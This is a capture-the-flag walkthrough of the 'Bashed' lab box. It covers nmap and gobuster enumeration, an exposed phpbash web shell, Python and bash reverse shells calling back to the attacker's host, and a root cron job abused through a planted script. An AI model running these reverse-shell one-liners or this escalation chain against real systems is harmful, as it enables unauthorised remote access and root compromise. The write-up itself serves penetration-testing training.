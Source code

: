 ```yaml
---
title: Bashed
tags: linux
---
```


![image](assets/79369383-d8b97280-7f1e-11ea-95e8-354f14929c25.png)

## Overview

Bashed is an Ubuntu box running Apache hosting a custom website/blog. The developer talks about creating something called phpbash. Using gobuster I discovered a number of folders including a site that hosted a web-based shell running as www-data. Using the shell I determined that a cron job was running anything in the scripts folder as root which was exploited to get a root shell.

## Enumeration

**Software**

* Ubuntu 16.04.2 LTS
* Apache 2.4.18

**Open Ports**

```
nmap -vv -Pn -sT -A --osscan-guess -p- 10.10.10.68 -oN /mnt/data/boxes/bashed/_full_tcp_nmap.txt
```

* 80/tcp - http

**URL/File Discovery**

```
gobuster dir -w http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html -t 25
```

![image](assets/79475960-660bce00-7fd6-11ea-82ad-3f296cd9bf12.png)

## Steps (User)

Browsing to http://10.10.10.68 showed a blog entry talking about phpbash which appeared to be a web shell that was created for pentesting. There were no other pages or interesting information in the source code.

Reviewing the gobuster output showed a few interesting results but nothing useful besides /dev. Browsing to /dev showed a directory listing with one of the files being phpbash.php.

![image](assets/79476916-943ddd80-7fd7-11ea-837c-f43669e1abc9.png)

Browsing to http://10.10.10.68/dev/phpbash.php brought me to a page hosting a web-based user shell.

![image](assets/79477267-07475400-7fd8-11ea-9d43-f63bd20e4d3d.png)

One of the first things I do is run sudo -l which lists the allowed commands for the user. The output of this command showed that this account can run any command as user "scriptmanager".

> [sudo](https://linux.die.net/man/8/sudo) allows a permitted user to execute a command as the superuser or another user, as specified by the security policy. 

![image](assets/79497293-6b2c4580-7ff5-11ea-9a4c-ccd7c7a6179b.png)

Attempting to switch to scriptmanager doesn't work on the web shell so to get around this I used netcat to create a reverse shell. The box was running the openbsd version of netcat so there was no -e option, __bash -i >& /dev/tcp/10.10.14.13/4200 0>&1__ and a few other variations of this didn't work. 

I ran 'which python' to confirm that python was installed on the box and grabbed a copy of the python reverse shell from [PentestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). 

I started a netcat listener (nc -l 4200), updated the command with my box's IP/port, and ran it in the web shell.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.32",4200));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![image](assets/86192957-bea03100-bb18-11ea-8010-9be1166be8b6.png)

Now that I had a proper shell I was able to run the command below which executed a bash shell under the context of the scriptmanager user.

```
sudo -u scriptmanager /bin/bash
```

![image](assets/79480129-b2a5d800-7fdb-11ea-918d-b78590dee785.png)

## Steps (root/system)

As I was looking around on the filesystem I noticed an unusual folder /scripts. In this folder there was a file owned by root that, judging by the timestamp (ls -la), was being updated frequently.  I ran pspy to see if there were any automated tasks running. 

> [pspy](https://github.com/DominicBreuker/pspy) is a command line tool designed to snoop on processes without need for root permissions.

I copied pspy32 to my working directory and fired up a python http server so I could transfer the file to the target box. 

```
local: cp ~/tools/pspy/pspy32 .
local: python3 -m http.server 80
```

I then used wget to copy the file to the target.

```
target: wget http://10.10.14.32/pspy32
```

pspy shows that the command that is being run 

```
/bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
```

![image](assets/79482678-24cbec00-7fdf-11ea-8bb5-54d3fae6e8c0.png)

I updated the IP/port in the python code used earlier and started a netcat listener on the matching port (nc -lvnp 4201).

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",4201)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Using the python http server again, I copied the code to a new file and copied it over to the target box.

```
wget http://10.10.14.32/rshell.py /scripts/rshell.py
chmod +x /scripts/rshell.py
```

Once the script was executed I received a callback on my netcat listener and received a shell as root.

![image](assets/79483164-e420a280-7fdf-11ea-950a-25dc9b8cee38.png)
